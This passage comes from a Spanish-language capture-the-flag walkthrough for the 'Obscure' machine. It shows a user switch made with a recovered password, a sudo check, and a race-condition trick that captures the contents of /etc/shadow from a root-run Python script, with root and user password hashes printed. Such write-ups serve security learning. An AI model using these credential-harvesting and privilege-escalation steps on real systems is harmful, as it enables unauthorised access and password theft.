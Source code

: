 > www-data@obscure:/home/robert$ cat /tmp/robert_password.txt 

```console
SecThruObsFTW
```

Guardamos la contraseña en credentials.txt y con esta contraseña ingresamos al usuario de *robert* para poder ver la flag user.txt

> echo "robert:SecThruObsFTW" > content/credentials.txt
>
> su robert
>
> cat user.txt

## Fase de Escalación de Privilegios

Para la escalación vemos los privilegios que tenemos con la herramienta *sudo* y vemos que podemos correr y leer el archivo BetterSSH.py como sudo

> robert@obscure:~$ sudo -l

```cnosole
Matching Defaults entries for robert on obscure:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User robert may run the following commands on obscure:
    (ALL) NOPASSWD: /usr/bin/python3 /home/robert/BetterSSH/BetterSSH.py
```

> robert@obscure:~$ ls -lha BetterSSH/

```console
total 12K
drwxr-xr-x 2 root   root   4.0K May  9 13:46 .
drwxr-xr-x 7 robert robert 4.0K May  9 13:46 ..
-rwxr-xr-x 1 root   root   1.8K Oct  5  2019 BetterSSH.py
```

Inspeccionando el arvhico BetterSSH.py observamos que lee el archivo **/etc/shadow** y guarda su contenido en un archivo temporal dentro el directorio */tmp/SSH/*

Para poder obtener los hash del archivo */etc/shadow*, primero creamos el archivo */tmp/SSh* dado que no existe y desde dos consolas ejecutamos los dos sigueintes códigos.

> while true; do cat /tmp/SSH/*; done 2>/dev/null

```console
[...]

root
$6$riekpK4m$uBdaAyK0j9WfMzvcSKYVfyEHGtBfnfpiVbYbzbVmfbneEbo0wSijW1GQussvJSk8X1M56kzgGj8f7DFN1h4dy1
18226
0
99999
7




robert
$6$fZZcDG7g$lfO35GcjUmNs3PSjroqNGZjH35gN4KjhHbQxvWO0XU.TCIHgavst7Lj8wLF/xQ21jYW5nD66aJsvQSP/y1zbH/
18163
0
99999
7

[...]
```

[Nota]: esta maquina fue realizada según el WriteUp realizado por S4vitar
[^1]: la utilidad se puede descargar de <https://github.com/Akronox/WichSystem.py>